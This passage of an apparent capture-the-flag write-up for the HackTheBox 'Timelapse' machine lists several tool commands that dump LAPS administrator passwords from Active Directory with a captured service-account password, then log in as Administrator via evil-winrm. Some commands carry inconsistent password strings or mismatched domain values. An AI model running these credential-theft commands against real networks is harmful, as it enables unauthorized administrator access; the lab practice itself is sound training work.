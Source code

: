 or

```bash
bloodyAD --host "10.129.185.51" -d "timelapse.htb" -u "svc_deploy" -p "E3R$Q62^12p7PLlC%KWaxuaV" get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
```

or

```bash
ldapsearch -x -H ldap://10.129.185.51 -D "svc_deploy@timelapse.htb" -w "E3R$Q62^12p7PLlC%KWaxuaV" -b "dc=ignite,dc=local" "(&(objectCategory=computer)(ms-MCS-AdmPwd=*))" ms-MCS-AdmP
```

or

```bash
use auxiliary/gather/ldap_query
set rhosts 10.129.185.51
set username svc_deploy
set password E3R$Q62^12p7PLlC%KWaxuaVc
set domain timelapse.htb
set action ENUM_LAPS_PASSWORDS
run
```

or

```bash
ldap_shell timelapse.htb/svc_deploy:E3R$Q62^12p7PLlC%KWaxuaVc -dc-ip 10.129.185.51
#  get_laps_gmsa 
```

or

```bash
Powershell –ep bypass
Import-Module .\Get-LAPSPasswords.ps1
GET-LAPSPasswords -DomainControler 10.129.185.51 -Credentials IGNITE\svc_deploy | Format-Table -Autosize
```

or

```bash
impacket-GetLAPSPassword timelapse.htb/svc_deploy:'E3R$Q62^12p7PLlC%KWaxuaV' -dc-ip $IP
```

![image.png](/assets/Images//HTB_Timelapse/image%206.png)

```bash
evil-winrm -i $IP -u 'Administrator' -p '<LAPSPASSWORD>'
```

---

### `Author : PaiN`